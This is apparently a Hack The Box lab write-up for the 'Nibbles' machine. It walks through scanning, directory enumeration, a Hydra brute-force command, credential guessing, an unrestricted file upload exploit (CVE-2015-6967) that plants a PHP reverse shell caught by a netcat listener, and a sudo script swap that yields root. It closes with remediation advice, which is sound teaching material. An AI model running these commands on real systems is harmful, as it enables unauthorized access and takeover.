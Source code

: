 +++
draft = true
date = 2020-06-19T16:04:02+01:00
title = "Nibbles"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 5

+++


# Machine info

- OS : Linux
- Difficulty : Easy
- Points : 20
- IP : 10.10.10.75


# Mind Map
![Nibbles_MindMap](/images/htb/nibbles_mindmap.png)


# Reconnaisance

I start with a scan to check for open ports:

{{< highlight html >}}
sudo nmap -sT -sV -n 10.10.10.75 -oA nmap/sT_SV_scan
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-20 10:32 BST
Nmap scan report for 10.10.10.75
Host is up (0.097s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
{{< /highlight >}}
**Note**: A full port scan does not reveal any new open port.

I have only port 22 and port 80 open, so let's start with the enumeration phase.

# Enumeration

I proceed visiting the webpage at `10.10.10.75:80`. It shows nothing apart from a "Hello World" message, but visiting the source code I can see a reference to a resource:

{{< highlight bash >}}
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
{{< /highlight >}}

Visiting `10.10.10.75:80/nibbleblog/` I am presented with a **Nibbleblog** blog homepage:

![Nibbles_Blog](/images/htb/nibbles_blog.png)

At this point - as the links in the page do not show anything useful - I want to check if there are open directories available on the web server. I mostly like `dirsearch` for this purpose:

{{< highlight html >}}
sudo python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.75:80/nibbleblog/ -e php,bak,old,sh
{{< /highlight >}}
Where:
- `-e` is for telling the command what extensions to search for

I'm able to found something interesting here: a `README` page and a a link to an `Admin login` page.

{{< highlight html >}}
[11:19:28] 200 -    1KB - /nibbleblog/admin.php
[11:19:29] 200 -    2KB - /nibbleblog/admin/
[11:19:29] 403 -  312B  - /nibbleblog/admin/.htaccess
[11:19:29] 200 -    2KB - /nibbleblog/admin/?/login
[11:19:30] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://10.10.10.75/nibbleblog/admin/js/tinymce/
[11:19:30] 200 -    2KB - /nibbleblog/admin/js/tinymce/
[11:19:52] 301 -  323B  - /nibbleblog/content  ->  http://10.10.10.75/nibbleblog/content/                         
[11:20:04] 200 -    3KB - /nibbleblog/index.php                                                                
[11:20:04] 200 -    3KB - /nibbleblog/index.php/login/
[11:20:05] 200 -   78B  - /nibbleblog/install.php
[11:20:21] 200 -    5KB - /nibbleblog/README
{{< /highlight >}}

The `README` file informs about the **Nibbleblog** version. It can be useful for searching for any known vulnerability.

{{< highlight html >}}
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
{{< /highlight >}}

Indeed, version  4.0.3 seems vulnerable to `CVE-2015-6967`:

> Unrestricted file upload vulnerability in the My Image plugin in Nibbleblog before 4.0.5 allows remote administrators to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in content/private/plugins/my_image/image.php.

# Exploitation

I first need to figure out how to enter the administrator panel for uploading a file.
Here is the Admin login page:

![Nibbles_Login](/images/htb/nibbles_login.png)

Let's try to brute force the login with **Hydra**:

{{< highlight html >}}
hydra -V -f -t 4 -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^&Login=Login:Incorrect username or password."
{{< /highlight >}}

Where:

- `-V` is for verbosity
- `-f` exits when a successful login is found
- `-t` number of connects in parallel per target
- `username` and `password` are the fields to bruteforce
- `Incorrect username or password` is the message printed on screen when the login fails

I get some false positives and the attempt to bruteforce the login blocks my ip :(
I have to wait a few minutes for being able to visit the login page again! The solution here appears to be really simple, I just have to try some basic user/pass combinations like `admin/admin`, `admin/password`, `admin/nibbles`. The last one works!

Once I'm in, I have to upload a file of my choice under `Plugins -> My image`. I download a `php-reverse-shell` from Pentestmonkey and edit it with the IP/PORT couple of my machine before uploading the file.

Then I have to set up a netcat listener to receive the connection back and visit the following link (which hosts the reverse shell):

{{< highlight html >}}
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
{{< /highlight >}}

I receive a connection back and I'm logged in as the `nibbler` user!

{{< highlight html >}}
nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.75] 59652
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 11:37:54 up  6:14,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
{{< /highlight >}}


# Privilege escalation

To have a Python interactive shell:

{{< highlight html >}}
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler$
{{< /highlight >}}

For privilege escalation I like using this great tool called **Linux Smart Enumeration**. You can find it on GitHub: https://github.com/diego-treitos/linux-smart-enumeration

I download the script on the target machine and launch it with the following command:

{{< highlight html >}}
./lse.sh -l 1 -i
{{< /highlight >}}
Where:
- `-l` specifies the 'verbosity' of the command
- `-i` is for telling the command to not ask the current user password

Then I check the scritp results for interesting informations about the machine:

{{< highlight html >}}
[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
{{< /highlight >}}

I'm able to run the `/home/nibbler/personal/stuff/monitor.sh` script with sudo permissions without providing a password!
The content of the `personal` directory is zipped. I have two options here:

1. unzip the file and edit `monitor.sh`
2. as I have write permissions under `/home/nibbler`, I can create my own `monitor.sh` script under the specified path

I choose the second one! All I have to do is to create a script named `monitor.sh` with the following content:

{{< highlight html >}}
#!bin/sh

bash
{{< /highlight >}}

And make it executable:

{{< highlight bash >}}
chmod +x monitor.sh
{{< /highlight >}}

Launching the script with sudo gives me root permissions!

{{< highlight html >}}
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
/home/nibbler/personal/stuff/monitor.sh: 1: /home/nibbler/personal/stuff/monitor.sh: !#bin/sh: not found
root@Nibbles:/home/nibbler/personal/stuff# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler/personal/stuff#
{{< /highlight>}}

**Note**: as always, flags are under `/home` and `/root`, but I suppose we don't really care about that!

## Lessons learned and remediations

- Always try first simple user/passwords combinations before attempting to brute force a login, so to avoid ending up in a blacklist.
- The admin panel credentials were too easy to guess, so never use weak authentication credentials.
- The blog is using a known vulnerable application, so always patch your software where possible.
- The system admin should have not given a regular user the ability to run a script as root!
